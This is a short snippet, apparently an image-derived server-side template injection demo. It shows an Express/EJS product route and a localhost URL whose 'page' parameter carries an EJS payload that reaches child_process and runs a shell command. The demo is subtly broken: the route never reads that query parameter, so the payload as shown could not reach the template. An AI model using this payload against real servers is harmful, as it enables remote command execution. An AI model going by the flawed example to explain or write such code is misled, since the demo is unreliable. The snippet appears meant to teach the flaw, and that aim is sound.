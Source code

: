 source code:

```
app.get('/product/:id', function(req, res) {
    var productId = req.params.id;
    var product = getProductById(productId);

    var source = `
        <html>
            <body>
                <h1><%= page %></h1>
                <h2><%= product.name %></h2>
                <p><%= product.description %></p>
                <p>Price: <%= product.price %></p>
            </body>
        </html>
    `;

    var template = ejs.compile(source);
    var context = {
        product: product,
        page: 'Product Detail'
    };
    var html = template(context);

    res.send(html);
});
```

```http://localhost:4000/product/1?page=<%= this.constructor.constructor('return process')().mainModule.require('child_process').exec('ls') %>```
